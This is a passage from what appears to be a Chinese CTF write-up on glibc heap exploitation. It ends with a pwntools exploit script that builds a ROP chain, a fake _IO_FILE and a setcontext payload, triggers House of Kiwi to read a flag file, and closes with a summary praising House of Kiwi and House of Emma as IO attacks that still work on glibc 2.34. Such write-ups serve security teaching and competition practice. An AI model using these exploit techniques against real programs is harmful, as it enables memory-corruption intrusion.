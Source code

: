 ```bash
    3,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr,

    pop_rax_addr,  # sys_write(1, heap, 0x100)
    1,
    pop_rdi_addr,
    1,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr
]
payload = p64(0) + p64(fake_frame_addr) + '\x00' * 0x10 + p64(setcontext_addr + 61)
payload += str(frame).ljust(0xF8, '\x00')[0x28:] + 'flag'.ljust(0x10, '\x00') + flat(rop_data)

edit(0, fake_IO_FILE)
edit(2, payload)

add(8, 0x450)  # House OF Kiwi
# gdb.attach(sh, "b _IO_cookie_write")
run_opcode()
sh.interactive()
```

参考文章：[第七届“湖湘杯”House \_OF \_Emma | 设计思路与解析 - 安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/260614#h3-10)

# 总结

House of kiwi 和 House of emma 都是较高版本的堆 IO 利用方法，这两种利用思路一脉相承，利用 malloc\_assert 达成了强大的攻击效果，同时在取消了 hook 后的 glibc2.34 仍有不错的发挥空间，是精妙且优秀的 IO 攻击方法。
